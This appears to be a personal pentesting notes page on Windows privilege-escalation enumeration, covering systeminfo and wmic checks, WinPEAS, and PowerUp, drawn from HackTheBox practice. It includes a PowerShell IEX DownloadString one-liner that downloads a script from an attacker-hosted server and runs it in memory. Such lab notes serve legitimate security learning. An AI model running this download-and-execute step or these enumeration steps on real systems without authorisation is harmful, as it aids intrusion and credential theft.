 # Enumeration

## Manual Enumeration

Get OS version:

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Get service pack version:

```
wmic os get servicepackmajorversion
```

## Automatic Enumeration

### WinPEAS

Great Windows privesc enumeration script.

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS" %}

If you transfer the results from running the script to linux, then you can view colourized output with the **cat** command. Vim doesn't colourize it properly.

To view it with other tools, you have to convert it to UTF-8 first.

```
iconv -f utf-16le -t utf-8 winpeas.txt -o winpeas-utf-8.txt
```

After that, you can view it with **less** (ansi coloured output).&#x20;

```
less -R winpeas-utf-8.txt
```

**Caveats**:&#x20;

* When I tested this script, it wasn't able to find autologon credentials, even though PowerUp was able to find them with `Get-RegistryAutoLogon` (WinPEAS checks for them but said it didn't find any in the "Bart" box on HTB)

### PowerUp

This may catch some stuff that WinPEAS might not find, like autologon credentials.

Serve the script over HTTP:&#x20;

```
python3 -m http.server 80
```

(From Powershell) load the module into memory:&#x20;

```
IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP_ADDRESS_HERE/PowerUp.ps1');
```

Invoke all checks:&#x20;

```
Invoke-AllChecks | Out-File -Encoding ASCII powerup.txt
```

**Caveats**:&#x20;

* If you're running the script on a 64-bit machine, then make sure you're using 64-bit Powershell.
